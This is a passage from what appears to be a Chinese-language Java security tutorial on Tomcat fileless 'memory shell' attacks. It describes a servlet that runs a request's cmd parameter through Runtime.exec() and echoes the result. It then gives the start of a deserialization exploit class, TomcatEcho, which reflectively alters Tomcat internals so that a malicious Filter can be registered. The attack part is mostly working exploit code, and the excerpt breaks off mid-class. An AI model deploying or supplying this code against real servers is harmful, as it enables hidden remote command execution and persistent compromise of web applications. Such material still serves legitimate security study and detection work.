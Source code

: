 然后到我们的Servlet当中来可以看到，传入的参数cmd被获取到，直接就会执行Runtime.getRuntime().exec()

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_42_NMx0O5HD.png)

最后再通过response回显到页面中

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_42_uIKHFXWs.png)

## 反序列化注入Filter
在进行反序列化注入之前，这里使用之前写的[Commons Collections 系列靶场](/知识库/02.JAVA安全/19.CommonsCollections/08.Commons Collections 系列简单靶场.md)
这里主要需要执行两步：
第一步将 request 和 response 存入到 lastServicedRequest 和 lastServicedResponse 中
第二步从 lastServicedRequest 和 lastServicedResponse 获取到我们的 request 和 response ，然后利用 request 获取到 servletcontext 然后动态注册 Filter

### 存入request和response
第一步还是和上面一样需要存入request 和 response 到 lastServicedRequest 和 lastServicedResponse，在这里写一个TomcatEcho类需要继承AbstractTranslet（因为需要携带恶意字节码到服务端加载执行）在其静态代码块中反射修改ApplicationDispatcher.WRAP_SAME_OBJECT为true，并且对lastServicedRequest和lastServicedResponse这两个ThreadLocal进行初始化
这里贴一下threedr3am师傅的代码
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/**
 * @author threedr3am
 */
public class TomcatEcho extends AbstractTranslet {

    static {
        try {
            /*刚开始反序列化后执行的逻辑*/
            //修改 WRAP_SAME_OBJECT 值为 true
            Class c = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
            java.lang.reflect.Field f = c.getDeclaredField("WRAP_SAME_OBJECT");
            java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (!f.getBoolean(null)) {
                f.setBoolean(null, true);
            }

            //初始化 lastServicedRequest
            c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            f = c.getDeclaredField("lastServicedRequest");
            modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (f.get(null) == null) {
                f.set(null, new ThreadLocal());
            }

            //初始化 lastServicedResponse
            f = c.getDeclaredField("lastServicedResponse");
            modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
```